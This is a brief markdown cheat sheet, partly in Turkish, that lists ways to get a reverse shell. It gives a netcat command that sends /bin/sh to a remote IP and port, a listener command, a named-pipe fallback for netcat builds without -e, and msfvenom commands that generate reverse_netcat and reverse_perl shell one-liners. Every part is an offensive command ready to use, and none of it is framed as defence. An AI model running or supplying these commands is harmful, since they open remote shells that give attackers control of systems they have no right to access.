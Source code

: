 # Get Reverse Shell Traditional

```
nc 192.168.56.1 4444 -e /bin/sh
```

# Listen Shell

```
nc -nvlp 4444
```

### -e parametresi netcat de yoksa

```
mknod /tmp/backpipe p 

/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```

# MSFVENOM ile tek satırlık shell oluşturma

```
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```

### MSFVENOM reverse netcat

```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.10.10 LPORT=4444 R
```

### MSFVENOM reverse perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=10.10.10.10 LPORT=4444 R
```

